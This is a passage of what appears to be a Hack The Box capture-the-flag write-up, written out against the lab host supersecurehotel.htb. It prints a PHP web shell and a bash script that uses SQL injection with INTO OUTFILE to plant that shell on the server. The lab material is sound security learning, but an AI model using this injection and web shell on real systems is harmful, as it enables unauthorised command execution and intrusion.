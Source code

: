Armed with that insight, I could write/inject a PHP file to `/images` directory of the Apache default installation. This directory is almost certain to be writable by `www-data`. The PHP file is simple.

~~~~php
<?php echo shell_exec($_GET[0]); ?>
~~~~

Towards that end, I wrote a `bash` injector of sorts using `curl` as the main driver.

<div class="filename"><span>room</span></div>

~~~~bash
#!/bin/bash

HOST=supersecurehotel.htb
ROOM="room.php?cod="
COOKIE=$(mktemp -u)

if [ -z "$1" ]; then
  SQLI=$(urlencode "-1 UNION ALL SELECT 1,2,'<?php echo shell_exec(\$_GET[0]); ?>',4,5,6,7 INTO OUTFILE '/var/www/html/images/cmd.php'-- qwerty")
else
  SQLI=$(urlencode "-1 UNION ALL SELECT 1,2,$1,4,5,6,7-- qwerty")
fi

curl -s \
     -c $COOKIE \
     -o /dev/null \
     http://$HOST/

curl -s \
     -b $COOKIE \
     "http://$HOST/${ROOM}${SQLI}" \
| sed -r '/<span class="price-room">/,/<\/span>/!d' \
| sed -r -e 's/\s+<span class="price-room">//' -e '$d' \
| sed -r 's/<\/span>//'

# clean up
rm -f $COOKIE
~~~~

Running the script without argument creates `cmd.php` in `/images`.

<a class="image-popup">

[1]: https://www.hackthebox.eu/home/machines/profile/194
[2]: https://www.hackthebox.eu/home/users/profile/25205
[3]: https://www.hackthebox.eu/home/users/profile/24844
[4]: https://www.hackthebox.eu/